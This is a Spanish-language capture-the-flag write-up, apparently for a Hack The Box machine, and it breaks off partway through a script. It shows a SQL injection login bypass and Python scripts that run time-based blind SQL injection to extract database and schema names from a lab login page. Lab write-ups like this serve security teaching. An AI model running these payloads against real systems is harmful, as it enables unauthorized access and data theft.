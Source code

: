 Si intentamos una inyeccion sqli ```admin@europacorp.htb' or 1=1-- -``` nos dice que metamos una direccion de correo. Eso lo pone en el navegador pero si  
intentamos de otra manera puede que nos lo saltemos.  

```python3
#!/bin/python3

import requests
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}

data = { "email":"admin@europacorp.htb' or 1=1-- -", "password":"test"}
req = requests.post(login_url, data=data, headers = headers, verify=False)
print(req.text)
```
----------------------------
# Part 3: Blind sqli

Probamos otro tipo de inyeccion (tiempo) -> ```' and sleep(5)-- -```  
Ejecutamos el script y tarda cinco segundos en responder, eso esque hay una vulnerabilidad **time based blind sqli**  
Las blind sqli se basan en la función substr:   
> substr(‘palabra’, 1,1) -> “p”; substr(‘palabra’, 2,2) → “al”    
> ```and if (substr(‘palabra’, 1,1)='p', sleep(5),1)-- -``` si la primera letra de 'palabra' es 'p', espera 5 segundos.  
## Averiguar el nombre de la base de datos actual:  
```python
#!/bin/python3
import requests, time, string
import urllib3; urllib3.disable_warnings()

caracteres = string.ascii_lowercase
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Base de datos actual: ")
resultado = ""
for pos in range(20):
    for letra in caracteres:
        sqli = "' and if(substr(database()," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
        data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
        inicio = time.time()
        req = requests.post(login_url, data=data, headers = headers, verify=False)
        final = time.time()
        if final - inicio > 2:
            resultado += letra
            print(resultado)
            break
```
La base de datos actual es **admin**  
## Averiguar el nombre de otras bases de datos:  
```python
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
caracteres = string.ascii_lowercase + "_"
resultado = ""
for i in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select schema_name from information_schema.schemata limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
```